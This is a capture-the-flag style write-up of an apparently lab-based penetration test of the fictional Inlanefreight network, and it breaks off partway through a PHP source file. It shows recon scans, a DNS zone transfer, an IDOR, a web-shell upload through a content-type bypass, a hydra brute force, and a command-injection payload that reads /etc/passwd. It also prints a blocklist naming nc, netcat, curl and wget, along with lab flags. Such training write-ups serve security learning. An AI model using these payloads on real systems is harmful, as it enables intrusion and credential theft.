Our client, Inlanefreight, has contracted our company, Acme Security, Ltd., to perform a full-scope External Penetration Test to assess their perimeter security. The customer has asked us to identify as many vulnerabilities as possible; therefore, evasive testing is not required. They would like to see what sort of access can be achieved by an anonymous user on the Internet. Per the Rules of Engagement (RoE), if we can breach the DMZ and gain a foothold into the internal network, they would like us to see how far we can take that access, up to and including Active Directory domain compromise. The client has not provided web application, VPN, or Active Directory user credentials. The following domain and network ranges are in scope for testing:

| **External Testing**                       | **Internal Testing**                          |
| ------------------------------------------ | --------------------------------------------- |
| 10.129.x.x ("external" facing target host) | 172.16.8.0/23                                 |
| *.inlanefreight.local (all subdomains)     | 172.16.9.0/23                                 |
|                                            | INLANEFREIGHT.LOCAL (Active Directory domain) |

The customer has provided the primary domain and internal networks but has not given specifics on the exact subdomains within this scope nor the "live" hosts we will encounter within the network. They would like us to perform discovery to see what type of visibility an attacker can gain against their external network (and internal if a foothold is achieved).

Automated testing techniques such as enumeration and vulnerability scanning are permitted, but we must work carefully not to cause any service disruptions. The following are out of scope for this assessment:

- Phishing/Social Engineering against any Inlanefreight employees or customers
- Physical attacks against Inlanefreight facilities
- Destructive actions or Denial of Service (DoS) testing
- Modifications to the environment without written consent from authorized Inlanefreight IT staff
## Task

Here are some spoiler-free steps you can follow instead of referring to the module’s content:

1. Get all seven web flags on `DMZ01`.
2. Get a foothold on `DMZ01`
3. Get root access on `DMZ01`
4. Get a foothold on `DEV01`
5. Get root access on `DEV01`
6. Get a foothold on `MS01`
7. Get root access on `MS01`
8. Get root access on `DC01`
9. Get a foothold on `MGMT01`
10. Get root access on `MGMT01`


## Nmap scan


```
nmap -sC -sV 10.129.34.144 --open 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-05 13:01 -0500
Nmap scan report for 10.129.34.144
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp   open  domain   (unknown banner: 1337_HTB_DNS)
| dns-nsid: 
|_  bind.version: 1337_HTB_DNS
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    1337_HTB_DNS
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Inlanefreight
110/tcp  open  pop3     Dovecot pop3d
|_pop3-capabilities: TOP SASL STLS RESP-CODES PIPELINING CAPA UIDL AUTH-RESP-CODE
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-05-30T17:15:40
|_Not valid after:  2032-05-27T17:15:40
|_ssl-date: TLS randomness does not represent time
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: LITERAL+ ID LOGINDISABLEDA0001 more have post-login ENABLE capabilities listed STARTTLS IDLE SASL-IR OK IMAP4rev1 Pre-login LOGIN-REFERRALS
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-05-30T17:15:40
|_Not valid after:  2032-05-27T17:15:40
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: LITERAL+ ID AUTH=PLAINA0001 have more ENABLE capabilities listed IMAP4rev1 IDLE post-login SASL-IR OK Pre-login LOGIN-REFERRALS
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-05-30T17:15:40
|_Not valid after:  2032-05-27T17:15:40
995/tcp  open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-05-30T17:15:40
|_Not valid after:  2032-05-27T17:15:40
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: TOP SASL(PLAIN) USER RESP-CODES PIPELINING CAPA UIDL AUTH-RESP-CODE
8080/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Support Center
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.991%I=7%D=11/5%Time=6AECC47A%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,39,"\x007\0\x06\x85\0\0\x01\0\x01\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\r\x0c1337_HTB_DNS");
Service Info: Host:  ubuntu; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.41 seconds
                                                                         
```

```
 nmap -p- 10.129.34.144 --open -T5
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-05 13:01 -0500
Nmap scan report for 10.129.34.144
Host is up (0.049s latency).
Not shown: 60520 closed tcp ports (reset), 5004 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 33.69 seconds

```

## FTP enumeration

```
 ftp -a 10.129.39.98                               
Connected to 10.129.39.98.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41074|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
226 Directory send OK.
ftp> more flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
ftp> 


```

## DNS Zone transfer

```
dig axfr inlanefreight.local @inlanefreight.local

; <<>> DiG 9.20.29-1-Debian <<>> axfr inlanefreight.local @inlanefreight.local
; (1 server found)
;; global options: +cmd
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.    86400   IN      NS      inlanefreight.local.
inlanefreight.local.    86400   IN      A       127.0.0.1
blog.inlanefreight.local. 86400 IN      A       127.0.0.1
careers.inlanefreight.local. 86400 IN   A       127.0.0.1
dev.inlanefreight.local. 86400  IN      A       127.0.0.1
flag.inlanefreight.local. 86400 IN      TXT     "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN    A       127.0.0.1
ir.inlanefreight.local. 86400   IN      A       127.0.0.1
status.inlanefreight.local. 86400 IN    A       127.0.0.1
support.inlanefreight.local. 86400 IN   A       127.0.0.1
tracking.inlanefreight.local. 86400 IN  A       127.0.0.1
vpn.inlanefreight.local. 86400  IN      A       127.0.0.1
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
;; Query time: 40 msec
;; SERVER: 10.129.229.147#53(inlanefreight.local) (TCP)
;; WHEN: Thu Nov 05 13:12:03 EST 2026
;; XFR size: 14 records (messages 1, bytes 448)


```

## Vhost enum

```
gobuster vhost -u http://inlanefreight.local -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://inlanefreight.local
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8.2
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
dev.inlanefreight.local Status: 200 [Size: 2048]
vpn.inlanefreight.local Status: 200 [Size: 1578]
support.inlanefreight.local Status: 200 [Size: 26635]
blog.inlanefreight.local Status: 200 [Size: 8708]
status.inlanefreight.local Status: 200 [Size: 878]
monitoring.inlanefreight.local Status: 200 [Size: 56]
careers.inlanefreight.local Status: 200 [Size: 51806]
tracking.inlanefreight.local Status: 200 [Size: 35211]
ir.inlanefreight.local Status: 200 [Size: 28548]
gitlab.inlanefreight.local Status: 302 [Size: 113] [--> http://gitlab.inlanefreight.local/users/sign_in]
www.monitoring.inlanefreight.local Status: 200 [Size: 56]
#www.inlanefreight.local Status: 400 [Size: 301]
#mail.inlanefreight.local Status: 400 [Size: 301]
Progress: 19966 / 19966 (100.00%)
===============================================================
Finished
==============================================
```

all the vhosts are put into /etc/hosts


## blog.inlanefreight.local



blog hosts a drupal instance

fingerprinting the hosts discloses that the version running is drupal 9 which does not suffer from cves

```
curl -s http://blog.inlanefreight.local/ | grep Drupal                         
<meta name="Generator" content="Drupal 9 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>

```

## careers.inlanefreight.local


it's possible to create a new user:


the newly created account disclses in its main page "Jobs applied by user" (the name i chose), and in the url the profile?id=9 hints at a possible idor.


By changing the value 9 to other values, in this case 4, its possible to read the flag:


HTB{8f40ecf17f681612246fa5728c159e46}

## dev.inlanefreight.local

a login form is presented:



directory fuzzing discloses upload.php:

```
gobuster dir -u http://dev.inlanefreight.local -w  /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x .php

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.inlanefreight.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 2048]
images               (Status: 301) [Size: 335] [--> http://dev.inlanefreight.local/images/]
uploads              (Status: 301) [Size: 336] [--> http://dev.inlanefreight.local/uploads/]
upload.php           (Status: 200) [Size: 14]
css                  (Status: 301) [Size: 332] [--> http://dev.inlanefreight.local/css/]
js                   (Status: 301) [Size: 331] [--> http://dev.inlanefreight.local/js/]

```

sending a GET request to the endpoint gives back a 403 forbidden error



by doing HTTP verb tampering and changing the request to TRACK a new string (X-Custom-IP-Authorization: 172.18.0.1) is shown in the response:



A new request is made with the discovered string and the ip is set to 127.0.0.1, tricking the web server to bypass the authorization because the request looks like its done from an internal host:



By clicking on "Browse" its possible to upload a file:



file are restricted to images only, so "content type" is set to image/png, and the filter is bypassed, allowing to upload a php webshell on the server:



enumerating the webserver root directory reveals the flag:



reading the flag:



HTB{57c7f6d939eeda90aa1488b15617b9fa}


## gitlab.inlanefreight.local

creating an account:



navigating to /explore:




discovered new vhost shopdev2.inlanefreight.local and the flag:

HTB{32596e8376077c3ef8d5cf52f15279ba}

## monitoring.inlanefreight.local

Another login:


bruteforcing reveals creds:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-07 06:23:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=^USER^&password=^PASS^:F=Invalid
[STATUS] 2370.00 tries/min, 2370 tries in 00:01h, 14342029 to do in 100:52h, 16 active
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-07 06:25:37
                                                                                 
```

The shell accessible is very limited:




Enumerating source code:



looking into main.js an interesting endpoint is disclosed, which executes a ping command on the underlying server, possibly vulnerable to a command injection:




testing the endpoint:



command injection works, %0a is \n url endcoded and its not blacklisted:

```
/ping.php?ip=127.0.0.1%0acat${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```



reading ping.php:

```
GET /ping.php?ip=127.0.0.1%0acat${IFS}ping.php
```



(keep whole file,explain):

```php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
